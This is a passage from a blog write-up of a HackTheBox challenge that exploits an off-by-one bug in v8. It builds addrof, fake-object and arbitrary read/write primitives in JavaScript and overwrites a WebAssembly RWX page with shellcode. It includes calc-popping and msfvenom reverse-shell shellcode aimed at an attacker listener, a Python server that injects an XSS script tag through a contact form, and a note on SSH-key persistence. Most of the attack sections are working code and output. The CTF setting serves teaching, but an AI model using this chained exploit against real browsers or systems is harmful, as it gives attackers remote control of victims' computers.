So, we created some objects and an array to contain them - the values themselves aren't important, but the types are. We shortened the arrays and used the new `GetLastElement()` builtin to read past the end of the array and get both pointers to the Map objects that defines the data structure of the FixedArrays. This was straightforward for the array of floats, but for the array of Objects we first needed to make v8 think that the FixedArray was in fact full of floats (spoiler: it wasn't).

We can put all of this into a JavaScript file with the earlier type conversion functions, call it `addrof.js`, and we can give it a go.

```GDB
pwndbg> set disable-randomization on
pwndbg> run ./addrof.js
Starting program: /home/kali/htb/ropetwo/v8/out.gn/x64.release/d8 ./addrof.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Address of float array map:  134768669
Address of object array map:  134769849
Address of obj1: 134768681
Address of obj2: 134768737
[Inferior 1 (process 14586) exited normally
```

Okay, so this can now reliably leak a memory address (formatted as a 32 bit integer), and with ASLR disabled it will be loaded in the same address every time. We can double check with GDB and asking for a `--shell` once `addrof.js` has finished running.

```GDB
pwndbg> run --allow-natives-syntax --shell ./addrof.js
Starting program: /home/kali/htb/ropetwo/v8/out.gn/x64.release/d8 --allow-natives-syntax --shell ./addrof.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Address of float array map:  134768689
Address of object array map:  134769869
Address of obj1: 134768701
Address of obj2: 134768757
V8 version 8.5.0 (candidate)
d8> %DebugPrint(obj1)
0x03380808683d <Object map = 0x33808244e29>
{A: 1.1}
d8> ^C
Thread 1 "d8" received signal SIGINT, Interrupt.
pwndbg> p/x 134768701
$1 = 0x808683d
```

The `p/x` syntax tells GDB to print the value as a hexadecimal, and we can see that  `0x808683d` matches what `%DebugPrint()` told us - `0x03380808683d` (compressed 32-bit vs uncompressed 64-bit pointers, remember). Note that when running the release build of d8, the output of `%DebugPrint()` is very limited, but it is enough to prove we have built a working primitive - a v8 DNS of sorts, where we can look up something by name and get its address. Except that aside from that, it is nothing like DNS at all. But if it helps you think about, it's kinda just like DNS. Except it isn't, at all.


## Creating a fake object

Discontent with merely knowing where stuff lives, let's extend our capabilities by convincing v8 that any random address we give it points to an object. This logic is basically the reverse of the `addrof()` function when you think about it. We create an array where the first index holds a pointer typecast as a float, and we abuse the `SetLastElement()` function to make v8 believe this is an array of Objects instead of Floats. When we then ask v8 to create a handle to that (fake) object, we can set the Map pointer back, and return a variable that point to an address in memory that v8 will let us address like an object.

We can then go full circle in testing and use this to get a crafted instance of one of our existing objects, just to prove it works.

```javascript
function fakeobj(addr) {
    // First, put the address as a float into index 0 of the float array
    float_arr[0] = integer_to_float(addr, 32);

    // Change the float array's map to the obj array's map
    float_arr.SetLastElement(obj_arr_map);

    // Get a fake "object" at that memory location and store it
    let fake = float_arr[0];

    // Set the map back
    float_arr.SetLastElement(float_arr_map);

    // Return the object
    return fake;
}

obj3 = fakeobj(addrof(obj1))

console.log("Address of obj1:", addrof(obj1))
console.log("Address of obj3:", addrof(obj3))

console.log("Value of A of obj1:", obj1["A"])
console.log("Value of A of obj3:", obj3["A"])
```

Let's put that into a new file along with the code of `addrof.js` and run it:

```GDB
pwndbg> run --allow-natives-syntax --shell ./fakeobj.js
Starting program: /home/kali/htb/ropetwo/v8/out.gn/x64.release/d8 --allow-natives-syntax --shell ./fakeobj.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Address of obj1: 134769289
Address of obj3: 134769289
Value of A of obj1: 1.1
Value of A of obj3: 1.1
V8 version 8.5.0 (candidate)
d8>
```

So, both the original, regularly defined `obj1 = { A: 1.1 };` and the precisely targeted fake object `obj3 = fakeobj(addrof(obj1))` both have the same address in memory (because that's where we told it the object was) and can be queried like a normal object and have the same value (because v8 is still just following the same Elements pointer). Predictably, this leads to the following:

```javascript
d8> obj3
{A: 1.1}
d8> obj1["A"] = 13.37
13.37
d8> obj3
{A: 13.37}
```

This is the critical step for our read and write primitive - by creating an array where the Elements pointer points to the bit of memory we want to read from or write to, we can interact with it just like an array of floats. This technique of 'overlapping' regions memory with multiple objects can allow us to mess with the data structure as if it was one data type, and then read it like it another.


We're in a good position now, and we are on our way to creating the next step: proper arbitrary read and write primitives. That is to say, a function that can read from or write to any memory address that we give it (within reason). There are huge amounts of virtual memory address space that we won't be able to use, such as ranges not assigned to Chrome, pages marked read-only or execute-only, etc - but with our address-of primitive we can learn where we want to access, before we try.


## Arbitrary read

As the famous idiom goes, "you have to learn to ~~walk~~ read before you can ~~run~~ write". So, let's learn to read. We can create another array to abuse, and get its address as a 64-bit value:

```javascript
var arb_rw_arr = [float_arr_map, 1.1, 2.2, 3.3];
var arb_rw_arr_addr = addrof(arb_rw_arr) & 0xffffffffn;
```

In order to perform arbitrary reads, what we need to do is create a float array with at least four elements where the 0th index is set to a value of a float array’s map. This is still just a normal array of floats. But, if we create our fake object right on top of where that map is (remembering to subtract an offset for the approriate header size, that is) the 2nd item of the float array will be treated as the fake object's elements pointer. Then, when we try and 'index into' the fake object array to read the items, we're actually reading arbitrary memory of where the float pointed, because v8 will follow the Elements Pointer (2nd index) to the FixedArray and read the data.

This can then be used to perform reads at arbitrary addresses.

```javascript
function arb_read(addr) {
    // Place a fakeobj right on top of our crafted array with a float array map
    // We have to use tagged pointers for reading, so don't forget to tag the addr
    let fake = fakeobj(arb_rw_arr_addr - 0x20n);

    // Change the elements pointer using our crafted array
    // Need to convert for 64 bits too
    arb_rw_arr[1] = integer_to_float((0x8n << 32n) + addr - 0x8n, 64);

    // Index 0 will then return the value at read_addr
    return float_to_integer(fake[0], 64);
}
```


## Arbitrary write

This is very similar to the arbitrary read. We create a fake object right where we want to write to (again, remembering to subtract an offset for the appropriate header size), and then just write to the arrays first value (and remembering to write out floating-point values, not BigInts).

```javascript
function arb_write(addr, value) {
    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(arb_rw_arr_addr - 0x20n);

    // Again 64 bit handling
    arb_rw_arr[1] = integer_to_float((0x8n << 32n) + addr - 0x8n, 64);

    // Set the first element of our fake array to the value we read.
    fake[0] = integer_to_float(value, 64);
}
```

Now we're in a **really good** position, like if this was a game of Chess we've got a family check and you just *know* you're going to take their Queen next. We can learn the address of where any JavaScript object exists in memory, and if the kernel will allow us, we can read and write to that address. With this, there isn't much we cannot do. We could build on this to take a range of data and write more than one byte, and check for silly little mistakes like off-by-one errors and such, but for a primitive, simple is best and easiest to debug.

The next part is the best bit - taking our building blocks, and allegedly using them to build a full exploit.


# Exploit Development, aka probably cyber crimes

So, we now understand how v8 manages objects, maps and pointers in memory, and we have some powerful primitives that we can use to manipulate memory. We've come a long way, dear reader, but now we can turn these into the beginnings of *cyber crimes*.

In the not so distant past, JavaScript was a purely interpreted language. Browsers ran a parser that read and executed JavaScript line by line, and this was sufficient. As pages grew more dynamic and complex, and entire dynamic web applications started being built, performance became a concern. As one way of addressing this, v8 introduced Just-In-Time compilation (JIT) for JavaScript, turning it into native bytecode for significantly faster execution. It also introduces an opportunity to add some additional modern security mechanisms at compile-time. For example, when v8 gets some JavaScript and JIT-compiles it, the compiler will ensure that when executed it will only ever create a RW or RX page of memory as needed, but never RWX. This means the JavaScript can have memory that we can read or write to (so, for example, it has a heap and variables work), or read and execute from (ie, the memory page to store the bytecode itself), but never write to and execute from the same page. Under normal circumstances, the JIT-compiled output would never need to change its own compiled binary form, so a RX page is both of no real impact to almost all use-cases, and a highly effective security measure. It breaks entire classes of exploits that involve writing to memory within a process and then executing it.

This is in principle, similar to how [Microsofts Data Execution Prevention](https://docs.microsoft.com/en-us/windows/win32/memory/data-execution-prevention) security control works, something which  was introduced way back in Windows XP. Of course this causes a problem for us hackers, because we would very much like to be able to read, write and execute the area of memory we're about to tell the processor to jump to.

The good news for us is it is easy for us to create a RWX page of memory using a new technology that by design requires RWX memory - [WebAssembly](https://webassembly.org/)! WebAssembly is basically a stack-based virtual machine that runs in your browser, and executes a binary instruction format specially built for it. If we create a WebAssembly instance, it will create a RWX page for us. With our `addrof()` primitive, we should be able to find it in memory, and then using our `arb_write()` primitive, write the contents of our shellcode into that address space, and then call the function pointer to where `main()` was in that original assembly.

```javascript
var wasm_code = new Uint8Array([...]);
var wasm_module = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_module);
```

After debugging the above in GDB a few times and looking for the location of the newly created heap page in memory, we find that creating a RWX page was consistently 0x68 bytes after the start of the address of the WebAssemby Instance. This is good, because that's an object we can easily query from JavaScript with `addrof()`. This means we want to use our `arb_write()` primative to write to `addrof(wasm_instance) + 0x68` to precicely overwrite the RWX page.


## WebAssembly and you

But how do we generate `wasm_code` anyway? Well, we're a `sudo apt install emscripten` away from having the build chain. We can create a basic C program (it doesn't need to do much for us at all, because we're going to replace it entirely once the Wasm VM is instantiated) and compile it for the target:

```console?comments=true
kali@kali:~/htb/ropetwo$ cat wasm.c
int main() {
  return 42;
}
kali@kali:~/htb/ropetwo$ emcc -Oz -s WASM=1 wasm.c -o wasm
kali@kali:~/htb/ropetwo$ stat wasm.wasm
  File: wasm.wasm
  Size: 71              Blocks: 8          IO Block: 4096   regular file
Device: fd02h/64770d    Inode: 21177874    Links: 1
Access: (0755/-rwxr-xr-x)  Uid: ( 1000/    kali)   Gid: ( 1000/    kali)
[snip]
```

71 bytes is a nice small size to work with. While the emcc compiler can also output HTML and JS files for us to test executing the binary in the browser, we'd much rather take the binary and use it as a template for our WebAssembly VM. We can then extract the individual bytes into their hexadecimal representation using [xxd](https://linux.die.net/man/1/xxd):
```console?comments=true
kali@kali:~/htb/ropetwo$ xxd -ps -c1 wasm.wasm | tr '\n' ','
00 61 73 6d 01 00 00 00 01 0a 02 60 00 00 60 02 7f 7f 01 7f 03 03 02 00 01 04 05 01 70 01 01 01 05 06 01 01 80 02 80 02 07 11 04 01 61 02 00 01 62 01 00 01 63 00 00 01 64 00 01 0a 0a 02 03 00 01 0b 04 00 41 2a 0b
```

Except we want unsigned integers for our Uint8Array. Unfortunately xxd doesn't do that, but its not too difficult to rummage around in the bash ballpit and get different numbers. You could probably find a JavaScript library to do this for you.
```console?comments=true
kali@kali:~/htb/ropetwo$ for byte in $(xxd -ps -c1 wasm.wasm | tr '\n' ' '); do echo $(( 16#$byte )); done | tr '\n' ','
0,97,115,109,1,0,0,0,1,10,2,96,0,0,96,2,127,127,1,127,3,3,2,0,1,4,5,1,112,1,1,1,5,6,1,1,128,2,128,2,7,17,4,1,97,2,0,1,98,1,0,1,99,0,0,1,100,0,1,10,10,2,3,0,1,11,4,0,65,42,11,
```

So, our WebAssembly creation looks like this:
```console?comments=true
// Set up the WebAssembly
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,10,2,96,0,0,96,2,127,127,1,127,3,3,2,0,1,4,5,1,112,1,1,1,5,6,1,1,128,2,128,2,7,17,4,1,97,2,0,1,98,1,0,1,99,0,0,1,100,0,1,10,10,2,3,0,1,11,4,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var wasm_main = wasm_instance.exports.main;
```

Of course, it is also possible to use your browser to generate this code by [fiddling with it](https://wasdk.github.io/WasmFiddle/) a bit and setting the drop-down menu to "code buffer".


## Popping Calc

Whack that into a Uint8Array and we can create the Wasm VM, that will return 42 when executed. Returning 42 is nice and all, but you know what's nicer? Popping calc! It best to start simple - if we merely aim to launch the calculator app on the victim instead of connecting back to us, we won't have any network-layer problems that might cause us to incorrectly assume that we have an error in our exploit somewhere. This practice is known as 'popping calc' - demonstration that you have code execution, and from here more complicated payloads are likely possible, and symbolic of all the *Bad Things™* that could happen to you instead of just opening calc.

We could start with something like this:
```C
#include <stdlib.h>

int main(){
    return system("xcalc");
}
```

But do you know what sucks about that? How big libc is.
```console?comments=true
kali@kali:~/htb/ropetwo$ gcc -o popcalc calc.c
kali@kali:~/htb/ropetwo$ ls -lh popcalc
-rwxr-xr-x 1 kali kali 14K Feb  8 21:18 popcalc
```

We can make a much smaller binary from assembly, just by calling the [execve](https://linux.die.net/man/2/execve) syscall ('59') with the right arguments, and providing the display as an environment variable. While that's not too complicated to do in assembly, there's a Python library called [pwntools](https://github.com/Gallopsled/pwntools) that will make it even easier for us. Pwntools is an exploit development library for Python (which will be used extensively for exploiting later binaries on this system), but for now we can use it to generate assembly and binary.

```python
>>> import pwn
>>> shellcode = pwn.shellcraft.execve("/usr/bin/xcalc", ["xcalc"], {"DISPLAY":":0"}) # exec, args, envp
>>> pwn.pwnlib.asm.make_elf_from_assembly(shellcode)
'/tmp/pwn-asm-rmytrq6p/step3'
>>> print(sc)
    /* execve(path='/usr/bin/xcalc', argv=['xcalc'], envp={'DISPLAY': ':0'}) */
    /* push b'/usr/bin/xcalc\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x101626d
    push 0x6163782f
    push 0x6e69622f
    push 0x7273752f
    mov ebx, esp
    /* push argument array ['xcalc\x00'] */
    /* push 'xcalc\x00\x00' */
    push 0x63
    push 0x6c616378
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'xcalc\x00' */
    mov ecx, esp
    /* push argument array ['DISPLAY=:0\x00'] */
    /* push 'DISPLAY=:0\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x101313b
    push 0x3d59414c
    push 0x50534944
    xor edx, edx
    push edx /* null terminate */
    push 4
    pop edx
    add edx, esp
    push edx /* 'DISPLAY=:0\x00' */
    mov edx, esp
    /* setregs noop */
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```

Isn't that easier? Well probably not because we just introduced two more programming languages, and sure, it's not perfectly efficient, but it assembles to just a few bytes, and running it opens xcalc. Plus, it's my narrative, and some guy told me you can't be a hacker without using Assembly somewhere.



There are two important observations we can make from the assembly output above. First of all, judging by the use of registers and sizes of values it pushes, its a 32-bit binary. If we wanted a 64-bit native one, we should use `pwn.shellcraft.amd64` (the giveaway is that the registers would start with 'r' instead of 'e'). Second of all, pushing the `DISPLAY` environment variable as an array into edx is important, or xcalc won't know where to find our Xorg display.

> **Bonus related trivia/history**
> 
> 8-bit CPUs (like the Intel 8008) used register names like "A", "B", "C" etc. It was a simpler time. "A" stood for "Accumulator".
> 
> When smart cookies started building 16-bit processors like the infamous Intel 8086, the low-order bits that were referenced though instructions as "A" became known as "AL" (A Lower) and the newer, shinier high-order 8 bits "AH" for, "A Higher". Amazing stuff. To use the full 16-bit value, you could use the "AX" register, where the "X" was to mean 'all' - similar to how  "x86" came to mean 8086, 80186, 80286 etc.
> 
> When they then glued two together to get 32-bit CPUs (eg: Intel 80386, you can't convince me that's not how they did it), the lower 16-bits remained accessible as "AX", but you could query the full 32-bit register called "EAX", for "Extended AX" register.
> 
> When 64-bit x86 became a thing with Intel Xeon and later Core2 Duo, "EAX" remained as a way of querying the low-order 32-bits of the shiny new 64-bit "RAX" register.
> 
> The "R" in "RAX", "RBX", "RCX" etc, stands for Register. Yes, the Register Accumulator X... register. Maybe Intel had a bad week. x86 was definitely a mess before here though.

Getting the raw bytes is also very easy with pwntools:

```python
>>> pwn.asm(sc)
b'h\x01\x01\x01\x01\x814$mb\x01\x01h/xcah/binh/usr\x89\xe3jchxcal1\xc9Qj\x04Y\x01\xe1Q\x89\xe1h\x01\x01\x01\x01\x814$;1\x01\x01hLAY=hDISP1\xd2Rj\x04Z\x01\xe2R\x89\xe2j\x0bX\xcd\x80'
```

If we take the raw bytes of the compiled binary and overwrite the RWX memory page of the WASM VM with it, and then call the entrypoint of the VM, our code will execute and if everything is correct we should start xcalc. The actual shuffling of those bytes is a little messy, but doable. We put our bytecode into an [ArrayBuffer](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/ArrayBuffer), which is used to represent a generic, fixed-length raw binary data buffer. We can instantiate a [DataView](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/DataView) of the ArrayBuffer, and then create a [WebAssembly](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/WebAssembly) object from the DataView, we can have v8 execute that raw bytecode.

So, the final payload follows these steps:

1. Define all the JavaScript primitives we've already worked out.
1. Create a new WebAssembly object, and give it some bytecode (return 42) that will cause v8 to allocate a RWX page for it.
1. Create an instance of that WebAssembly object, and export the embedded assembly `main()` function so it can be called from JavaScript later.
1. Grab the memory address of that instance using our `addrof()` primitive.
1. Using our `arb_write()` primitive, overwrite the 'return 42' shellcode with our reverse shell shellcode into the RWX page so that it can be executed (byte by byte, because our arbitrary write function only writes one at a time)
1. Start the WebAssembly instance by calling the exported `main()` function we got earlier.
1. v8 runs our exploited WebAssembly VM, and executes the shellcode we inserted, which in this case, executes xcalc.
1. Congratulate our nearest self for making it this far


Here's what that part of the exploit looks like:
```javascript
// return 42 compiled to Wasm
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,
    0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,
    0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

// x86 instruction bytes that will push xcalc to the stack and call the execve syscall
var shellcode = new Uint8Array([0x6a, 0x3b, 0x58, 0x99, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53,
    0x48, 0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8, 0x11, 0x00,
    0x00, 0x00, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x3a, 0x30, 0x20, 0x78, 0x63,
    0x61, 0x6c, 0x63, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05]);
var shellcode_size = shellcode.length + 8; // allow some headroom

// Set up the WebAssembly
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var wasm_main = wasm_instance.exports.main;

// Get the memory address of where Wasm has loaded into memory
var wasm_instance_addr = addrof(wasm_instance) & 0xffffffffn;

// There is a page of memory that is readable, writable and executable 0x68 bytes into the wasm instance.
var rwx_page_addr = arb_read(wasm_instance_addr + 0x68n);

console.log("[+] RWX Wasm page addr: 0x" + rwx_page_addr.toString(16));
console.log("[+] Allocating " + shellcode_size + " byte buffer for shellcode...");

var array_buffer = new ArrayBuffer(shellcode_size);
var dataview = new DataView(array_buffer);

// Get the address of where our shellcode is in memory
var array_buffer_addr = addrof(array_buffer) & 0xffffffffn;

console.log("[+] array buffer page addr: 0x" + array_buffer_addr.toString(16));

// Write the address of our shellcode to the address that points to the RWX page, so we gain control
arb_write(array_buffer_addr + 0x14n, rwx_page_addr);

console.log("[+] arbitrary write complete, going to write shellcode to dataview");

for (let byte = 0; byte < shellcode.length; byte++) {
    // write out the shellcode into the array_buffer
    dataview.setUint8(byte, shellcode[byte], true);
}

// Tell the Wasm VM to jump to main().
console.log("[+] Calling it!");

wasm_main();
```

So, lets put the whole thing together, from the arrays and objects we're going to abuse, our primitive functions, and our WebAssembly, and stick it in an innocently-named file called `exploit.js` because sometimes the Blue Team have it too hard.


## Test Exploitation

Before we try this for real, we definitely want to test it on ourselves. That's easy enough with the compiled version of Chrome we downloaded from the site, or if we choose to not trust the binary we downloaded from this hacker's server (...) we could [compile it ourselves](https://chromium.googlesource.com/chromium/src/+/master/docs/linux/build_instructions.md).

We don't even need to XSS ourselves, we can just create and open a basic HTML file from disk that calls our final copy of `exploit.js`. When we open the file, we see that our computer ran xcalc! Let us be sure to load up our top secret *hacker tools* to check the progress of what's going on:


And then open our crafted HTML file:



How exciting, we've just owned ourselves!

To ensure that the testing environment reasonably accurately reflects the target environment, a Ubuntu VM was also created for testing the exploit. In the gif below, the victim on the left in the VM, attacker on the right. Click for a better resolution .webm file (they don't embed into Markdown correctly).

[](./ubuntu-calc.webm)


## Better than calc

The next best thing after popping calc is ~~popping two calculators~~ getting a shell on your victim's system! A reverse shell is, simply put, a shell that connects from the victim back to the listening attacker (as opposed to a bind shell, where the victim opens a socket and listens for input to execute). I'm a fan of (and contributer to) the [Metasploit Framework](https://github.com/rapid7/metasploit-framework) project, and one of the things it can do really well is generate the bytecode necessary to create a reverse shell. In short, it will generate and compile extremely minimal C code that will open a network socket that communicates back to our listening computer, and redirect STDIN, STDOUT and STDERR of a new bash process to that socket - effectively giving whatever receives that connection the ability to interact with bash.
```console?comments=true
kali@kali:~/htb/ropetwo$ msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f num
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of num file: 796 bytes
0x48, 0x31, 0xff, 0x6a, 0x09, 0x58, 0x99, 0xb6, 0x10, 0x48, 0x89, 0xd6, 0x4d, 0x31, 0xc9,
0x6a, 0x22, 0x41, 0x5a, 0xb2, 0x07, 0x0f, 0x05, 0x48, 0x85, 0xc0, 0x78, 0x51, 0x6a, 0x0a,
0x41, 0x59, 0x50, 0x6a, 0x29, 0x58, 0x99, 0x6a, 0x02, 0x5f, 0x6a, 0x01, 0x5e, 0x0f, 0x05,
0x48, 0x85, 0xc0, 0x78, 0x3b, 0x48, 0x97, 0x48, 0xb9, 0x02, 0x00, 0x11, 0x5c, 0x0a, 0x0a,
0x0e, 0x06, 0x51, 0x48, 0x89, 0xe6, 0x6a, 0x10, 0x5a, 0x6a, 0x2a, 0x58, 0x0f, 0x05, 0x59,
0x48, 0x85, 0xc0, 0x79, 0x25, 0x49, 0xff, 0xc9, 0x74, 0x18, 0x57, 0x6a, 0x23, 0x58, 0x6a,
0x00, 0x6a, 0x05, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xf6, 0x0f, 0x05, 0x59, 0x59, 0x5f, 0x48,
0x85, 0xc0, 0x79, 0xc7, 0x6a, 0x3c, 0x58, 0x6a, 0x01, 0x5f, 0x0f, 0x05, 0x5e, 0x6a, 0x26,
0x5a, 0x0f, 0x05, 0x48, 0x85, 0xc0, 0x78, 0xed, 0xff, 0xe6
```

We can take these bytes, and replace the xcalc shellcode in our `Uint8Array` for this new shellcode. We can also start a network listener using [netcat](http://netcat.sourceforge.net/).



While we already know the victim is running Linux, this shellcode could also be adapted for Windows or Mac with ease. If we were uncertain, we could also check the User Agent header of the victim's incoming requests for further indicators, but a more reliable option would be to simply fingerprint the operating system from the JavaScript we already have running and select the appropriate payload.

We can also test it in the Ubuntu test VM again, and demonstrate that we can execute commands on the exploited target:

[](./ubuntu-exploited.webm)

From here, we have full control over the users computer. We could read their files, or delete them all. We could install a backdoor to be able to connect whenever we want, even after the user closes their browser. We could watch them through their webcam, watch their screen and use a keylogger to capture the passwords they type. It is nearly time to do it for real against our target.


# Exploitation, For Real This Time Though

There is a few small supporting systems that we want to really make this happen. We want to automate triggering the XSS vulnerability, because we're hackers and doing things more than once isn't much fun. We will need a way of serving the malicious JavaScript to the victim when their browser requests it, and we will need an application listening for an incoming connection once the exploit was successful. We probably also want to verify that we have code execution reliably by sending a tiny reliable pingback payload first, so we know the victim is responding and our XSS worked correctly. Otherwise, we might spend hours debugging our (hopefully fully working) exploit only to realise it was never executing in the first place. 

This was built quickly in Python, as an all-in-one exploitation script. I won't paste the full script, but some interesting snippets. Here we have the code that handles incoming web requests. It could be easily adapted to serve different exploits to different browsers by checking the User Agent header, if we wished.

```python
WEB_SERVER_HOST = "10.10.14.6"
WEB_SERVER_PORT = 8000
TARGET = "ropetwo.htb:8000"

class myRequestHandler(SimpleHTTPRequestHandler):
    """
    Little handler to send a specific response to a specific request.
    """
    def do_GET(self):
        if self.path == "/exploit.js":
            with open("exploit.js", "r") as e:
                raw_exploit = e.read()

            print("[+] Loaded JS exploit from disk. Cleaning...")
            exploit = minimise_JavaScript(raw_exploit)
            self.send_response(200)
            self.send_header("Content-type", "script/javascript")
            self.send_header("Content-length", len(exploit))
            self.end_headers()
            self.wfile.write(exploit)
            print("[+] Got request for JavaScript file!")

        elif self.path == "/test.js":
            # Send code that requests the pingback.
            test_javascript = f"""var i = document.createElement("img"); i.src = "http://{WEB_SERVER_HOST}:{WEB_SERVER_PORT}/pingback";""".encode()
            self.send_response(200)
            self.send_header("Content-type", "script/javascript")
            self.send_header("Content-length", len(test_javascript))
            self.end_headers()
            self.wfile.write(test_javascript)

        elif self.path == "/pingback":
            response = b"ok!" # literally doesn't matter, we are not verifying it (yet).
            self.send_response(200)
            self.send_header("Content-length", len(response))
            self.end_headers()
            self.wfile.write(response)
            print("[+] Got JavaScript pingback! Successful code execution.")

        else:
            self.send_response(404)
            self.end_headers()
            self.wfile.write(b"404 Not Found")
```

The `submit()` function could reliably make a POST to the server that would exploit the XSS vulnerability and trigger the victim's browser to run our script when they next visited the page. Ideally the function should check that the request was received by `myRequestHandler`, but this was sufficient to ensure repeated success.

```python
def submit(callback_path="exploit.js"):
    """
    Send the HTTP POST request to the server, which should trigger it running some JavaScript that
    we will need to serve back.
    """
    print("[+] Making POST request...")
    url = "http://" + TARGET + "/contact"
    headers = {}
    data = {"name": "hacked",
            "subject": "hacked",
            "content": f"<script src=\"http://{WEB_SERVER_HOST}:{WEB_SERVER_PORT}/{callback_path}\"></script>"}

    response = requests.post(url, headers=headers, data=data)

    if response.status_code == 200:
        print("[+] POST request successful!")
        return True

    return False
```

This is the entrypoint to the program:
```python
if __name__ == "__main__":
    web_server = ThreadedWebServer()

    # First, demonstrate JS code execution on the remote.
    if submit("test.js"):
        pass
    else:
        print("[!] Something went wrong, didn't get a HTTP 200 response")
        sys.exit(1)

    print('[ ] Now trying to exploit for reals...')

    if submit():
        print("[+] Exploit Done!")
        web_server.stop()

    else:
        print("[!] Exploitation failed, did not get HTTP 200 response!")
        sys.exit(1)
```

So, running the Python exploit script does the following steps:

1. Creates a small web server, listening for two incoming requests and ignoring anything that doesn't match.
1. Sends a HTTP request to the target that will trigger the XSS. The JavaScript payload sent should have the browser connect back to our Python webserver and request `/pingback`. This does nothing more than let us know that we have successful JavaScript code execution inside the victim's visiting browser.
1. Sends a second HTTP request to the target that will again trigger the XSS, and request the contents of `/exploit.js`.
1. Reads our nice verbose `exploit.js` file off disk, and reduce it by stripping out comments and extraneous whitespace.
1. When the incoming request comes in, serve the minified content.
1. Shut down the web server.

In another [tmux pane](https://github.com/tmux/tmux/wiki), using the [Metasploit Framework](https://github.com/rapid7/metasploit-framework) we have started a TCP listener for an incoming connection. If all goes well, the remote target will be exploited and connect back to us from the minimal payload, and ask for more instructions. The listener will then send the second stage, larger payload which will give us remote access to the terminal (and the rest of their computer!) of the client who visited the page infected with a malicious script.

Obviously we don't get to watch the remote Chrome browser load our page, but we can watch the requests going back and forth. Enough talk already, let's see it go.



And just like that, we get an incoming shell. Couldn't be easier!

It is worth pointing out that as the `bash` process is a child process of the thread in Chrome running the tab, the connection will be closed as soon as the user closes the tab. Fortunately, we all close our tabs religiously, so an attacker has very little time to use this connection to gain persistence on the victims computer. Unless of course, the attacker has automated it...

To keep the server Chrome browser process running for all players, each visiting process has a strict timeout of 120 seconds, after which the process will be terminated, and we have to trigger the exploit again. Better work out how to automate that persistence after all, by inserting our public key into the `~/.ssh/authorized_keys` file, so we can then SSH right in to the port we disovered with nmap right at the beginning. From here... we need to work out how to get from the user running Chrome ('chromeuser') to the main user on the system, 'r4j'. That is, however, a whole other story. If you'd be interested in reading that, please let me know so I can rummage around and find the spare motivation to write it.


# Conclusion

Well, this admittedly extremely lengthy post has covered the *beginning* of exploiting this HackTheBox machine - there are still two vulnerabilities left to discover, understand and exploit in order to get to a full user account, and then to root respectively! But, now we at least have a shell on the machine, and this write-up is more than long enough.

Today we've looked at how to build v8, how Arrays of different types in JavaScript really work at a very low level, and how to inspect them working. We've examined the ramifications of an off-by-one error in a new prototype function for them, and crafted an exploit in JavaScript that takes advantage of that to allow us to read and write arbitrary memory. We then used that to manipulate a WebAssembly VM to execute our shellcode and get a reverse shell from a victim browser, and automated the process of cross-site scripting to exploit a visiting client and delivery using Python.

From the victim's perspective, they visited a legitimate and trusted site that told the browser to download some JavaScript from a malicious site (via an exploited cross-site scripting vulnerability). Then, without their knowledge, a weakness in the browser is exploited and a remote attacker gains control of their computer, all because of an off-by-one-error.

While the architecture around the XSS vector is a little contrived for the sake of supporting the challenge, this is still absolutely a real-world example of how a minor bug in a browser can lead to disaster. A similar bug in Chromium combined with an XSS on a public site (or even a malicious advertisement) could lead to the exploitation of millions of users very quickly, with no visual indication to the user. Unfortunately, there have been many [bugs](https://bugs.chromium.org/p/chromium/issues/detail?id=762874) [similar](https://bugs.chromium.org/p/chromium/issues/detail?id=1086890) [to this](https://bugs.chromium.org/p/chromium/issues/detail?id=1051017) [have](https://bugs.chromium.org/p/chromium/issues/detail?id=950328) [happened](https://bugs.chromium.org/p/chromium/issues/detail?id=1084820) before. The Chromium project even includes [regression tests](https://chromium.googlesource.com/v8/v8.git/+/407dc326755a453c8e5f5f5db40409a7cde4eabb/test/mjsunit/regress/regress-716044.js) in an attempt to reduce the probability of similar bugs occurring, and [Google Project Zero](https://googleprojectzero.blogspot.com/) has built a fuzzer specifically for JavaScript engines called [Fuzzilli](https://github.com/googleprojectzero/fuzzilli) to identify and patch these bugs before the attackers exploit them.

Hopefully you have learned something from this post, I know I learned a lot during the process. Thank you for reading this far, as a reward here is a picture of the disco cat.


PS: You're probably reading this writeup using Chrome right now *...is it up to date?*
